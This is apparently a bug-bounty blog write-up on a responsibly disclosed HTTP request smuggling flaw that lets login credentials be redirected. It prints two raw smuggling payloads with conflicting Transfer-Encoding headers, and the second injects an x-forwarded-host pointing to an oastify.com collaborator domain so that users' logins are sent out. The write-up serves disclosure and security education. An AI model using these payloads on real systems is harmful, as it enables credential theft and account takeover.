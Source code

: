 # Stealing Login Credentails using HTTP Request Smuggling

### Introduction

In this blog post, I will discuss a significant security vulnerability I discovered in a specific target. The vulnerability, called HTTP request smuggling, provided me with the ability to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it. In this write-up, I will explain the nature of the vulnerability, its impact, and the steps taken for responsible disclosure.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```json
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot 2023-05-16 at 12.07.05 PM(1).jpg](images/1.jpg)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```json
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2023-05-22 at 9.27.15 PM.png](images/2.png)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.